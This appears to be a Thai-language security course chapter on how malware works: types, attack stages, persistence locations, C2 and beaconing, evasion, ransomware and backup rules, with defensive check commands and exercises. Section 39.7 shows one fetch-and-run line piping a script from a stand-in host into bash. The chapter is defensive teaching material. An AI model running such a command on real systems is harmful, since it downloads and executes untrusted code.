


# บทที่ 39 · มัลแวร์ทำงานอย่างไร

> บทนี้อธิบาย**กลไก**ของมัลแวร์เพื่อให้คุณตรวจจับและป้องกันได้
> ไม่ใช่คู่มือสร้าง — เหมือนที่หมอต้องรู้จักเชื้อโรคเพื่อรักษา
>
> ถ้าไม่รู้ว่าผู้โจมตีทำงานอย่างไร คุณจะป้องกันได้แค่สิ่งที่นึกออกเท่านั้น

## 39.1 มัลแวร์ไม่ใช่เวทมนตร์ — มันคือโปรแกรมธรรมดา

มัลแวร์คือโปรแกรมที่ทำสิ่งที่เจ้าของเครื่องไม่ต้องการ **มันใช้ syscall เดียวกับ
โปรแกรมปกติ** ทุกอย่างในบทที่ 35-36 ใช้อธิบายมันได้หมด

| มัลแวร์ทำ | ใช้กลไกอะไร | อ่านเพิ่มที่ |
|-----------|-------------|-------------|
| ฝังตัวให้รันทุกครั้งที่เปิดเครื่อง | systemd unit, cron | บทที่ 35.9 |
| ยกระดับสิทธิ์ | setuid, capability, ช่องโหว่ kernel | บทที่ 36.3-36.4 |
| ซ่อนจาก `ps` | namespace, rootkit | บทที่ 36.5 |
| คุยกับคนคุม | HTTP/DNS | ทั้งคอร์สนี้ |
| ขโมยข้อมูล | อ่านไฟล์, `/proc/PID/environ` | บทที่ 35.6 |

**สิ่งเดียวที่ทำให้มันต่างจากโปรแกรมปกติคือ "เจตนา"** ไม่ใช่เทคนิค

## 39.2 ชนิดของมัลแวร์

จำแนกตาม **วิธีแพร่** และ **สิ่งที่ทำ** — ตัวหนึ่งอาจเป็นหลายอย่างพร้อมกัน

| ชนิด | ลักษณะเด่น |
|------|-----------|
| **Virus** | ฝังตัวในไฟล์อื่น แพร่เมื่อไฟล์นั้นถูกรัน |
| **Worm** | แพร่เองผ่านเครือข่ายโดยไม่ต้องมีคนกด |
| **Trojan** | ปลอมเป็นของมีประโยชน์ |
| **Ransomware** | เข้ารหัสไฟล์แล้วเรียกค่าไถ่ |
| **Spyware / Infostealer** | ขโมยรหัสผ่าน, cookie, token, กระเป๋าคริปโต |
| **Rootkit** | ซ่อนตัวเองในระดับลึก (kernel) |
| **Botnet agent** | ทำให้เครื่องเป็นลูกน้องรอรับคำสั่ง |
| **Cryptominer** | ขุดเหรียญด้วย CPU ของคุณ |
| **Backdoor** | เปิดทางกลับเข้ามาภายหลัง |

**Infostealer คือชนิดที่กระทบคนทำ API มากที่สุด** — มันขโมย session token,
API key, cookie จากเบราว์เซอร์ และ SSH key ซึ่งแปลว่า **การป้องกันของ
บทที่ 11 (token อายุสั้น + rotation) มีค่าจริงในสถานการณ์นี้**

## 39.3 วงจรชีวิตของการโจมตี



นี่คือโครงของ **MITRE ATT&CK** แบบย่อ — กรอบมาตรฐานที่ทีม security ทั่วโลกใช้

> **ข้อคิดสำคัญ: การโจมตีมีหลายขั้น** ซึ่งแปลว่า**คุณมีหลายโอกาสในการตรวจจับ**
> ถ้าพลาดขั้นที่ 1 ยังจับได้ที่ขั้นที่ 3, 5, หรือ 6 — นี่คือหลักการ
> defense in depth เดียวกับบทที่ 15.2

## 39.4 ขั้นที่ 1 — เข้ามาได้อย่างไร

| ช่องทาง | สัดส่วนในโลกจริง | ป้องกันด้วย |
|---------|------------------|-------------|
| **Phishing** | สูงที่สุด | ฝึกคน + 2FA แบบ hardware |
| **ช่องโหว่ที่ยังไม่แพตช์** | สูง | แพตช์เร็ว (บทที่ 37.7) |
| **Credential ที่รั่ว** | สูง | 2FA, ตรวจ password ที่รั่ว (บทที่ 11.8) |
| **Supply chain** | กำลังโตเร็ว | บทที่ 42 |
| **RDP/SSH ที่เปิดออกเน็ต** | สูงในองค์กรเล็ก | อย่าเปิด, ใช้ VPN/bastion |
| USB | ต่ำแต่ยังมี | ปิด autorun |

**ข้อสังเกตที่สำคัญที่สุด: สามอันดับแรกไม่ใช่เรื่องเทคนิคขั้นสูงเลย**
มันคือคนถูกหลอก, ลืมแพตช์, และรหัสผ่านที่ใช้ซ้ำ

## 39.5 ขั้นที่ 3 — ฝังตัว (persistence)

มัลแวร์ต้องรอดจากการรีบูต **จุดที่มันไปเกาะคือจุดที่คุณต้องไปตรวจ**

**บน Linux:**

```bash
# ตรวจจุดที่มัลแวร์ชอบฝังตัว
systemctl list-units --type=service --all | grep -v '@'
ls -la /etc/systemd/system/ /etc/cron.* /var/spool/cron/crontabs/
crontab -l
cat ~/.bashrc ~/.profile ~/.bash_profile
ls -la ~/.config/systemd/user/          # user service ไม่ต้องใช้ root!
cat /etc/ld.so.preload                  # ⚠️ ถ้ามีไฟล์นี้ให้สงสัยไว้ก่อน
```

| จุดฝังตัว | ต้องใช้ root ไหม |
|-----------|------------------|
| systemd system service | ✅ ต้อง |
| **systemd user service** | ❌ **ไม่ต้อง** — จุดที่คนลืมตรวจ |
| cron / systemd timer | แล้วแต่ |
| `~/.bashrc`, `~/.profile` | ❌ ไม่ต้อง |
| `LD_PRELOAD` / `/etc/ld.so.preload` | ✅ (แต่ทรงพลังมาก) |
| SSH `authorized_keys` | ❌ **เพิ่มกุญแจตัวเองเข้าไป** |

**`~/.ssh/authorized_keys` เป็นจุดที่ควรตรวจก่อนเพื่อน** — ผู้โจมตีเพิ่ม
public key ของตัวเองเข้าไปบรรทัดเดียว แล้วกลับเข้ามาได้ตลอดโดยไม่ต้องมี malware
ค้างอยู่ให้ใครเจอ

## 39.6 C2 — การติดต่อกับคนคุม

มัลแวร์ต้องคุยกับ "บ้าน" เพื่อรับคำสั่งและส่งข้อมูลออก **และตรงนี้คือจุดที่
ความรู้ทั้งคอร์สนี้ใช้ตรวจจับได้**

| ช่องทาง C2 | ทำไมเลือกใช้ | ตรวจจับอย่างไร |
|-----------|--------------|----------------|
| **HTTPS** | กลืนกับ traffic ปกติ | JA3/TLS fingerprint (บทที่ 15.6), โดเมนแปลก |
| **DNS tunneling** | มักไม่มีใครกรอง DNS | query ยาวผิดปกติ, จำนวน subdomain เยอะ |
| บริการยอดนิยม (cloud storage, chat) | ดูเหมือน traffic ปกติ | ยากมาก |
| Domain generation (DGA) | เปลี่ยนโดเมนทุกวัน | โดเมนที่ดูสุ่ม, NXDOMAIN เยอะ |

**สัญญาณที่ใช้จับ C2 ได้จริง — "beaconing"**

```
เครื่องหนึ่งยิงออกทุก 60 วินาที ± 5 วินาที ไม่หยุด ตลอด 3 วัน
รวมถึงตอนตี 3 ที่ไม่มีใครใช้เครื่อง
```

**มนุษย์ไม่ทำงานเป็นจังหวะสม่ำเสมอแบบนั้น** — ความสม่ำเสมอเกินไปคือสัญญาณ
(ผู้โจมตีที่รู้ตัวจึงใส่ jitter — หลักการเดียวกับที่คุณใส่ jitter ใน retry
ในบทที่ 12.5 แต่คนละเจตนา)

## 39.7 การหลบเลี่ยง

รู้ไว้เพื่อเข้าใจว่าทำไม antivirus อย่างเดียวไม่พอ

| เทคนิค | ทำอะไร | ทำไมสำคัญกับฝ่ายป้องกัน |
|--------|--------|------------------------|
| **Packing / obfuscation** | บีบอัด/สับสนโค้ด | signature ของ AV ใช้ไม่ได้ |
| **Polymorphic** | เปลี่ยนหน้าตาทุกครั้ง | hash ต่างกันทุกตัว |
| **Living off the land** | ใช้เครื่องมือที่มีอยู่แล้ว | ไม่มีไฟล์แปลกให้ตรวจ |
| **Fileless** | อยู่ในหน่วยความจำอย่างเดียว | สแกนดิสก์ไม่เจอ |
| **Anti-sandbox** | ตรวจว่าถูกวิเคราะห์อยู่แล้วหยุดทำงาน | sandbox เห็นแต่พฤติกรรมปกติ |
| **Time bomb** | รอหลายวันก่อนเริ่มทำงาน | ผ่านการทดสอบตอนแรก |

**"Living off the land" คือเทคนิคที่สำคัญที่สุดต่อคุณ** — ผู้โจมตีใช้
`curl`, `bash`, `python3`, `systemd` ที่มีอยู่แล้วในเครื่อง

```bash
# นี่คือคำสั่งที่ถูกต้องทั้งหมด แต่รวมกันแล้วน่าสงสัยมาก
curl -s http://evil.example/x.sh | bash
```

> **ผลลัพธ์:** ไม่มีไฟล์มัลแวร์ให้ AV ตรวจเลย — ต้องจับที่ **พฤติกรรม**
> ไม่ใช่ที่ไฟล์ นี่คือเหตุผลที่ EDR (บทที่ 41) เกิดขึ้นมาแทน antivirus แบบเดิม

## 39.8 Ransomware — รูปแบบที่ทำเงินได้มากที่สุด



**ขั้นที่สำคัญที่สุดคือขั้นที่ 3 — เขาทำลาย backup ก่อนเสมอ**

นี่คือเหตุผลที่ backup ต้องเป็นไปตามกฎ **3-2-1-1-0**:

| ตัวเลข | หมายถึง |
|--------|---------|
| **3** | สำเนา 3 ชุด |
| **2** | สื่อ 2 ชนิด |
| **1** | อย่างน้อย 1 ชุดอยู่นอกสถานที่ |
| **1** | อย่างน้อย 1 ชุด **offline หรือ immutable** ← สำคัญที่สุด |
| **0** | ทดสอบกู้คืนแล้วได้ผล 0 ข้อผิดพลาด |

> **backup ที่เครื่องเขียนทับได้ = ไม่ใช่ backup ในสายตา ransomware**
> และ **backup ที่ไม่เคยทดสอบกู้ = ไม่รู้ว่ามันใช้ได้จริงไหม**
>
> โยงกับ attack tree ในบทที่ 34.6 ที่ผมชี้ว่าคนมักลืม backup

## 39.9 มัลแวร์บนเซิร์ฟเวอร์ Linux

ต่างจากบน Windows — เป้าหมายมักเป็น**ทรัพยากร** ไม่ใช่ไฟล์ของคุณ

| ชนิด | สัญญาณ |
|------|--------|
| **Cryptominer** | CPU 100% ตลอด, ค่าไฟ/ค่า cloud พุ่ง |
| **Botnet / DDoS agent** | traffic ขาออกผิดปกติ |
| **Web shell** | ไฟล์ `.php`/`.jsp` แปลก ๆ ในโฟลเดอร์อัปโหลด |
| **SSH backdoor** | key แปลกใน `authorized_keys` |
| **Proxy ผิดกฎหมาย** | connection ขาออกเยอะผิดปกติ |

**Web shell โยงกับบทที่ 25.5 โดยตรง** — การอัปโหลดไฟล์ที่ไม่ตรวจ magic bytes
และเก็บไว้ในโฟลเดอร์ที่ web server รันได้ คือวิธีที่ web shell เข้ามา

```bash
# ตรวจสัญญาณเบื้องต้นบนเซิร์ฟเวอร์
top -b -n1 | head -15                        # CPU ผิดปกติไหม
ss -tunp | grep ESTAB                        # ต่อออกไปไหนบ้าง
find /var/www -name '*.php' -mtime -7        # ไฟล์ใหม่ในโฟลเดอร์เว็บ
cat ~/.ssh/authorized_keys                   # key ที่ไม่ใช่ของเรา
last -20                                     # ใครล็อกอินบ้าง
```

## 39.10 ⚠️ ขอบเขตและกฎหมาย

| ✅ ทำได้ | ❌ ห้าม |
|---------|---------|
| อ่านและเข้าใจกลไก | เขียนมัลแวร์ใช้งานจริง |
| วิเคราะห์ตัวอย่างในแล็บที่แยกออกมา (บทที่ 40) | รันตัวอย่างบนเครื่องใช้งาน |
| เขียนกฎตรวจจับ | แพร่กระจายไม่ว่าด้วยเหตุผลใด |
| ทำ CTF / ฝึกในสนามที่จัดไว้ | ทดสอบกับเครื่องคนอื่น |

**พ.ร.บ. คอมพิวเตอร์ ม.9 และ ม.10** ครอบคลุมการทำลาย/แก้ไขข้อมูลและการรบกวนระบบ
(บทที่ 22.2) — การ "ลองดูเฉย ๆ" กับระบบที่ไม่ใช่ของคุณไม่ใช่ข้อแก้ตัว

## แบบฝึกหัด

1. ตรวจจุดฝังตัวทั้ง 6 จุดในข้อ 39.5 บนเครื่องคุณ — มีอะไรที่คุณอธิบายไม่ได้ไหม
2. ดู `~/.ssh/authorized_keys` — ทุก key ในนั้นคุณรู้จักหมดไหม
3. รัน `systemctl list-units --type=service --all | wc -l` แล้วเลือกมา 5 ตัว
   ที่คุณไม่รู้จัก ค้นว่ามันคืออะไร
4. ใช้ `ss -tunp` ดูว่าเครื่องคุณกำลังต่อออกไปที่ไหนบ้าง — มีอันไหนอธิบายไม่ได้ไหม
5. เขียนสคริปต์ที่ตรวจ beaconing จาก log ของ lab server: หา IP ที่ยิงเข้ามา
   ด้วยช่วงเวลาสม่ำเสมอผิดปกติ
6. ตอบตัวเอง: ถ้า infostealer ขโมย token ของ API คุณไปได้ **การป้องกันในบทที่ 11
   ช่วยจำกัดความเสียหายอย่างไรบ้าง** และช่วยไม่ได้ตรงไหน
7. ตรวจ backup ของคุณกับกฎ 3-2-1-1-0 — ผ่านกี่ข้อ ข้อ "1" ตัวที่สอง
   (offline/immutable) ผ่านไหม
8. อ่าน [MITRE ATT&CK](https://attack.mitre.org/) หมวด Persistence แล้วเทียบกับข้อ 39.5

***
[⬅ Cryptography ภาคปฏิบัติ](38-crypto-in-practice.md) · [สารบัญ](../README.md) · [การวิเคราะห์มัลแวร์เบื้องต้น ➡](40-malware-analysis-basics.md)
